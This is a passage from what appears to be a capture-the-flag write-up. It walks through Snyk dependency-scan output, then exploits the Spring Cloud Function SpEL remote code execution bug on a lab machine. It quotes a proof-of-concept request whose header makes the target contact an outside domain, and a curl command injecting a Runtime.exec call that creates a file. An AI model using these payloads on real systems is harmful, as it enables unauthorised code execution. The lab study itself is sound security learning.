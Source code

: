 ```bash
    introduced by org.springframework.cloud:spring-cloud-function-web@3.2.2 > org.springframework.cloud:spring-cloud-function-context@3.2.2

Issues with no direct upgrade or patch:
  ✗ Arbitrary Code Execution [Medium Severity][https://security.snyk.io/vuln/SNYK-JAVA-ORGYAML-3152153] in org.yaml:snakeyaml@1.29
    introduced by org.springframework.boot:spring-boot-starter-thymeleaf@2.6.5 > org.springframework.boot:spring-boot-starter@2.6.5 > org.yaml:snakeyaml@1.29
  This issue was fixed in versions: 2.0
```

Snyk does an amazing job listing out all the vulnerable packages. It also includes a link to a more detailed write up and a severity score. Going through the list I highlight the following packages as interesting candidates to dive deeper into:

- [Remote Code Execution](https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORK-2436751) in org.springframework:spring-beans@5.3.17 (Critical)
- [Remote Code Execution](https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORKCLOUD-2436645) in org.springframework.cloud:spring-cloud-function-context@3.2.2 (Critical)

I briefly played around with the beans exploit, because it seemed a rather trivial exploit. But I didn’t really get it working. So I moved on plan B the `spring-cloud-function`. The CVE report on Snyk refers to the following POC on github: [https://github.com/hktalent/spring-spel-0day-poc](https://github.com/hktalent/spring-spel-0day-poc). Which looks something like this:

```
POST /functionRouter HTTP/1.1
host:127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.2 Safari/605.1.15
Connection: close
spring.cloud.function.routing-expression:T(java.net.InetAddress).getByName("random87535.rce.51pwn.com")
Content-Length: 5

51pwn
```

Translating this to a curl request I get the following command, which when executed successfully it should create a file `/tmp/exce_me` on the target machine.

```bash
curl -i -s -k -X 'POST' \
	-H 'Host: 10.10.11.204:8080' \
	-H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/exec_me")' \
	--data-binary 'exec_me' 'http://10.10.11.204:8080/functionRouter'
```

To verify if my exploit works I can use the LFI to see if the file got created. And indeed it does!
